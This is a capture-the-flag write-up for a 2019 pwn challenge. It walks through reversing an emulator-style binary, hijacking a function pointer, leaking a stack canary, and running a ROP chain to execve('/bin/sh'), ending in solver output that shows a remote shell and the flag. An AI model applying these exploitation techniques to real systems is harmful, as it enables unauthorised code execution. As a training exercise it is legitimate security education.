








# Day 23 - Gr8 Escape - pwn

> https://i.imgur.com/s3Ex4C0.jpg

Service: `nc 3.93.128.89 1223`

Download: [gr8_escape.tar.gz](https://advent2019.s3.amazonaws.com/072c514a88a29e2a74cdc10321c5a06f5ea472eaf0a6d5d824eae6945215e550-gr8_escape.tar.gz)

Mirror: [gr8_escape.tar.gz](./static/gr8_escape.tar.gz)

## Initial Analysis

I chose to use [Ghidra](https://ghidra-sre.org/) for reversing with this challenge. Personally, I think its a great tool and has a lot of good disassembly features. I'm not quite as familiar with the keybindings, but if you're unfamiliar then I suggest you install before reading along.

Loading the binary up in Ghidra, I found a couple things:

* It is statically compiled so there aren't any standard "system", "exec", or "popen" libc functions which we might like for exploitation later.
* The binary does not have ASLR so any text or data memory address we use should be fixed without having to worry about randomization.
* There is a limited set of strings in the binary so we don't have much to start with.
* The prompt from the service has soome ASCII art, but its not entirely clear what "game" data is expected.

 

```
$ nc 3.93.128.89 1223

▀▀▄▄▀▀ ▄▄   ▄▄ ▄▄▀▀▀▀   ▄▄▀▀▀▀▄ ▄▄▀▀▀▄▄ ▄▄▀▀▀▄▄
  ▄▄   ▄▄▄▄▄▄▄ ▄▄▄▄▄    ▄▄  ▄▄▄ ▄▄▄▄▄▄▀ ▀▄▄▄▄▄▀
  ▄▄   ▄▄▀▀▀▄▄ ▄▄▀▀▀    ▄▄  ▀▄▄ ▄▄▀▀▄▄  ▄▄▀▀▀▄▄
  ▀▀   ▀▀   ▀▀ ▀▀▀▀▀▀   ▀▀▀▀▀▀▀ ▀▀  ▀▀▀ ▀▀▀▀▀▀▀

 ▄▄▀▀▀▀ ▄▄▀▀▀▄▄ ▄▄▀▀▀▄▄  ▄▄▄▄▄  ▄▄▀▀▀▄▄ ▄▄▀▀▀▀
 ▄▄▄▄▄  ▀▄▄▄▄▄  ▄▄   ▀▀ ▄▄▀▀▀▄▄ ▄▄▄▄▄▄▀ ▄▄▄▄▄
 ▄▄▀▀▀  ▄▄▀▀▀▄▄ ▄▄   ▄▄ ▄▄▀▀▀▄▄ ▄▄▀▀▀▀  ▄▄▀▀▀
 ▀▀▀▀▀▀ ▀▀▀▀▀▀▀ ▀▀▀▀▀▀▀ ▀▀   ▀▀ ▀▀      ▀▀▀▀▀▀

game: 
```

It wasn't obvious what the base OS of the challenge was going to be, but based on the above it likely didn't matter. For testing, I then setup a local Docker container with the challenge binary both for doing dynamic analysis (via gdb) and testing out any solution scripts I would write later. The `Dockerfile` I used is below, and running the two commands at the top will build it and then run it with a listening port on TCP/1223 (like the challenge) over localhost.

```
# docker build -t advent2019-1223 .
# docker run -it -p 127.0.0.1:1223:1223 advent2019-1223
FROM ubuntu:18.04

RUN apt update && apt install -y gcc socat net-tools
ADD gr8_escape /root/gr8_escape
RUN echo 'theflag' > /root/flag.txt
RUN chmod 555 /root/gr8_escape
CMD socat tcp-l:1223,fork exec:/root/gr8_escape
```

## Reversing

I spent a lot of time on this step so buckle in.

First off, using the strings identified above, I tracked down the function to start the game. This is shown below and has a couple function calls in it along with the "data: " prompt string. I felt a little silly, but it took a remarkably long time to figure out that the two function calls in here were acually simple libc functions `malloc` and `read`. This disassembly, now labeled, is shown below.



Next, tracking up to the calling function, I labeled this one `game_run`, and all of the sub functions with numerals (a lot of this labeleing actually came later once I figured out what they did, but for simplicity I've kept the final labels here). Looking at the code flow here we can see that there are two initialize functions, and then an infinite loop of the "game" running itself.



Each of these seven functions in here are somewhat interesting and tell us some about how the "game" state is stored. Additionally, there is __a lot__ of bookkeeping in the data section of the binary. Looking at each of these functions, here is roughly what I learned about each of the data structures.

```
006db520 -- byte[0x800], game board state
006dbd20 -- boolean, "print" the game board
006dbd40 -- byte, stack pointer (SP)
006dbd41 -- byte, unknown purpose
006dbd42 -- byte, unknown purpose
006dbd44 -- byte, unknown purpose
006dbd46 -- word, program counter (PC)
006dbd48 -- word, current instruction
006dbd4a -- byte[0x1000], game state (aka instructions)
006dbd4a -- byte[0x10], registers V0, V1, ..., Vf
006dcd5a -- byte[0x10], "bit array"
006dcd6a -- word[..], game stack
006dcd90 -- pointer, function to "print" the game registers
006dcd98 -- pointer, allocated game state string
```

Some of the analysis I did to come up with this labeling is below. The first function allocates some memory and copies a couple starter instructions to the game state. The game state input by the user starts at offset 0x200. Again, it took me an embarassingly long time to label "calloc" correctly :(



Functions "2" and "3" are largely uninteresting. Mostly, they deal with some IOCTLs to adjust file descriptors and some setting of the "bit array" which turns out to be unimportant. Likewise functions "6" and "7" are uninteresting and deal with sleeping and decrementing some of the unknown byte values labeled above. Function "4" is the most interesting, but first, we'll deal with "5".

Function "5" is shown below and does a couple things. First, this function is only called if the boolean to "print" the game board is non-zero. The first part of this function then reads all of the data on the "game board" array, constructs a long string, and then calls `puts()` on it. After this, if the "print registers" boolean is set, then the function will call the function pointer labeled above to "print" the registers. This pointer is set in the initialization, but importantly it is _a function pointer near the game data_. This immediately piqued my attention since if we could overwrite it then we would gain some limited code execution. We'll come back to this later, but for now, the end of function "5" disassembly is shown below.



The original "print registers" function is set to the pointer in the main "game_run" function above and is shown below. Helpfully, this function connects a printf string with some memory addresses and is shown below. Other than that, we need to note the address (0x00402266) of this function as we'll need it later.



Lastly, function "4" is the main meat of this executable. It roughly reads the current 2-byte "instruction" at the program counter (PC), looks up what this 2-byte value does, and then performs an action. Most valid functions then increment the program counter by 2 to the next function. For instance, my notes from some of the instructions I disassembled from this function are:

```
0xyy
	if yy == 0xe0 -> memset(game_state_board,0) and bool_print_board = 1
	if yy == 0xee -> return (SP -= 1, PC = *SP+2)
	if yy == 0x00 -> PC += 2
1xxx
	PC := xxx
2xxx
	"push" PC (stack[SP] = PC; SP++)
	PC := xxx
	// equivalent to a "call" xxx
6xyy
	Vx := yy
axyz
	unk := xyz
fx55
	for i=0..x
	  game_state[unk+i] = Vi
fx75
	bool_print_registers = 1
```

And some of the disassembly is shown below.



## Code Execution

After staring at the instruction set a lot, I found that if you "push" a bunch of data to the stack, eventually you'll overwrite the low-12 bits of the "print registers" function pointer. To test this hypothesis, I constructed a "game" instruction set which would set the two booleans to print the board (`00e0`), print the registers (`f055`), and then call the first instruction (`2200`) which pushs the current PC to the stack. Sending this to the program causes a crash as shown with testing in my docker image:

```
$ docker run -it -p 127.0.0.1:1223:1223 advent2019-1223 /bin/bash
root@fcae15b936c2:/# ps aux
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root         1  4.0  0.0  18500  3212 pts/0    Ss   03:05   0:00 /bin/bash
root        11  0.0  0.0  34396  2688 pts/0    R+   03:06   0:00 ps aux
root@fcae15b936c2:/# cd
root@fcae15b936c2:~# python
Python 2.7.15+ (default, Oct  7 2019, 17:39:04) 
[GCC 7.4.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import binascii
>>> open('test.bin','wb').write(binascii.unhexlify('00e0f0752200'))
>>> 
root@fcae15b936c2:~# xxd test.bin 
00000000: 00e0 f075 2200                           ...u".
root@fcae15b936c2:~# ./gr8_escape < test.bin 

.. <snip>

|                                                                |
|                                                                |
|                                                                |
+----------------------------------------------------------------+
Segmentation fault
root@fcae15b936c2:~# 
```

This is a good proof of concept, but we weren't really careful with what the function we were now jumping to was. Going back to the disassembly for a second, I found that there was a function I labeled as "game_win". This function has its own interesting properties, which I'll come back to later. Importantly at this point the address of it is 0x00402140 which only differs from the original print registers function (0x00402266) in the low 12 bits!

Now, the trick is to write the value `140` instead of `204` (as above) in the register. To do this, I constructed similar instructions earlier in the program memory, and then jumped too it. I had to write a couple "nop"-like insructions so I didn't overwrite too much of the address. The insructions I created were as follows:

```
a13c # set "unk" to 13c
6000 # set V0 to 00
61e0 # set V1 to e0
62f0 # set V2 to f0
6375 # set V3 to 75
6421 # set V4 to 21
653c # set V5 to 3c
ff55 # for i=0..x
         game_state[unk+i] = Vi
6666 # "nop", set V6 to 66
6666 # "nop", set V6 to 66
213c # call 13c
```

Sending this to the server causes it to run a similar loop starting at instruction `13c` instead of `200` which writes a bunch of `140` bytes to the stack, eventually overwriting the function pointer.

## ROP

Now, if we had a reliable libc address (which we don't because its statically compiled), or a helpful system() syscall (also not present in the binary), then we'd be done. However, since we don't we took a closer look at this `game_win` function.



This function has several properties:

* We can perform a buffer overflow on the stack as far as we like (over the canary, return address, etc).
* We have a stack leak in the printf() statement.
* There is a stack canary check that needs to be passed.

This entire operation makes me think that we have to read the stack canary, write it back to the stack along with a ROP chain, and then use the chain to execute a `exec("/bin/sh",NULL,NULL)` system call. Dealing with the stack canary first, if we write "names" with consecutive lengths, and then read the output, we're guaranteed to see at least one byte of the canary and the base pointer (rbp) on the stack. This is shown later in my solution script.

Next, the ROP chain needs to setup a couple things

* set `rax` to 59 (the `sys_execve` call) [link](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)
* set `rdi` to the string "/bin/sh"
* set `rsi` to zero
* set `rdx` to zero
* run the `syscall` instruction

Using [ROPgadget](https://github.com/JonathanSalwan/ROPgadget.git), its easy enough to find most of these instructions. Additionally, since the data for the program is fixed in place we can just write the "/bin/sh" string as part of our original program and use its address in data for `rdi`. Some helpful instructions from ROPgadget were:

```
0x000000000044bf1c : pop rax ; ret
0x00000000004006a6 : pop rdi ; ret
0x0000000000412463 : pop rsi ; ret
0x000000000044bf75 : pop rdx ; ret
0x0000000000402b2c : syscall
```

Putting all of this together, I ran my [final python script](./solutions/day23_solver.py) to get a shell and print the flag:

```
$ ./day23_solver.py 
b'414141414141414141414141414141414141414141414141'
b'41414141414141414141414141414141414141414141414141593e8e1e78364230b603ddfc7f'
b'41414141414141414141414141414141414141414141414141413e8e1e78364230b603ddfc7f'
b'4141414141414141414141414141414141414141414141414141418e1e78364230b603ddfc7f'
b'414141414141414141414141414141414141414141414141414141411e78364230b603ddfc7f'
b'414141414141414141414141414141414141414141414141414141414178364230b603ddfc7f'
b'414141414141414141414141414141414141414141414141414141414141364230b603ddfc7f'
b'414141414141414141414141414141414141414141414141414141414141414230b603ddfc7f'
b'414141414141414141414141414141414141414141414141414141414141414130b603ddfc7f'
b'414141414141414141414141414141414141414141414141414141414141414141b603ddfc7f'
b'4141414141414141414141414141414141414141414141414141414141414141414103ddfc7f'
b'4141414141414141414141414141414141414141414141414141414141414141414141ddfc7f'
b'414141414141414141414141414141414141414141414141414141414141414141414141fc7f'
b'414141414141414141414141414141414141414141414141414141414141414141414141417f'
b'4141414141414141414141414141414141414141414141414141414141414141414141414141'
b'414141414141414141414141414141414141414141414141414141414141414141414141414141'
b'41414141414141414141414141414141414141414141414141414141414141414141414141414141312040'
b'41414141414141414141414141414141414141414141414141414141414141414141414141414141412040'
b'41414141414141414141414141414141414141414141414141414141414141414141414141414141414140'
b'41414141414141414141414141414141414141414141414141414141414141414141414141414141414141'
b'4141414141414141414141414141414141414141414141414141414141414141414141414141414141414141'
b'414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141'
b'41414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141'
b'4141414141414141414141414141414141414141414141414141414141414141414141414141414141414141414141'
defaultdict(<function pwn.<locals>.<lambda> at 0x10b5c3290>, {25: 89, 26: 62, 27: 142, 28: 30, 29: 120, 30: 54, 31: 66, 32: 48, 33: 182, 34: 3, 35: 221, 36: 252, 37: 127, 40: 49, 41: 32, 42: 64})
0x4236781e8e3e5900
0x7ffcdd03b630
b'00000000000000000000000000000000000000000000000000593e8e1e78364230b603ddfc7f00001cbf4400000000003b00000000000000a60640000000000060bf6d00000000006324410000000000000000000000000075bf44000000000000000000000000002c2b400000000000'
b'\x1b[1mSubmitting...\x1b[0m\n\n'
>> b'id\n'
b'uid=999(ctf) gid=999(ctf) groups=999(ctf)\n'
>> b'ls -al\n'
b'total 900\ndrwxr-xr-x 1 root ctf    4096 Dec 23 11:56 .\ndrwxr-xr-x 1 root root   4096 Dec 23 11:56 ..\n-r--r----- 1 root ctf      59 Dec 23 11:41 flag\n-rwxr-x--- 1 root ctf  901688 Dec 23 11:41 gr8_escape\n-rwxr-x--- 1 root ctf      60 Dec 23 11:41 redir.sh\n'
>> b'cat flag\n'
b'AOTW{congratul8_ur_escAp3_was_gr8_b8_m8_1_rel8_str8_n0_h8}\n'
```

